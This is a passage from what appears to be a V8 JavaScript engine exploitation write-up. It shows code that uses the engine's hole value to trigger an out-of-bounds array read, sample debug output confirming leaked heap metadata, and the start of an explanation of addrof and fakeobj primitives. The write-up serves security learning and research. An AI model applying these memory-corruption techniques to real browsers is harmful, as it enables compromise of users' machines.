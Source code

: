 >Note: the original writeup also notes that this code does not work if we instead did `let p = arr[index*4]`. Apparently this is because a bounds check is still performed in this case.

So now we can read past the end of an array. What can we leak?

### OOB read

V8 uses a deterministic linear heap. That means that, for the most part, if we declared a second array, it would wind up right after the first one in memory. Hence, we could leak some interesting data if we did something like this:

```javascript
function leak_stuff(b) {
    if (b) 
    {
        let index = Number(b ? the.hole : -1);
        index |= 0;
        index += 1;

        let arr1 = [1.1, 2.2, 3.3, 4.4];
        let arr2 = [0x1337, large_arr]; // large_arr is just some other array
    }
}
```

Based on the layout predicted by the writeup, when we read out of bounds, we should first leak `arr1`'s metadata, followed by the elements of `arr2`, and then `arr2`'s metadata.

Let's test this out by executing the very first part of the final payload to check that things still work as expected up to this point:

```
root@6a3823a2ddbf:/amarok# ./run.sh
DebugPrint: 0x13b3003ccfe1: [JSArray] in OldSpace
 - map: 0x13b30024cfb9 <Map[16](PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x13b30024ca35 <JSArray[0]>
 - elements: 0x13b3003cd1f5 <FixedDoubleArray[4]> [PACKED_DOUBLE_ELEMENTS]
 - length: 4
 - properties: 0x13b300002259 <FixedArray[0]>
(...)
0x24cfb9
undefined
0x2259
undefined
```

Those values look correct. That means our leak is working! Unfortunately attempting to run the full `install_primitives()` function causes the same crash that we encountered earlier. That means the primitives in that exploit don't work against our V8, and we will have to figure out why.

### Basic V8 pwn primitives

It's important to first understand the concepts behind two common primitives: `addrof` and `fakeobj`.
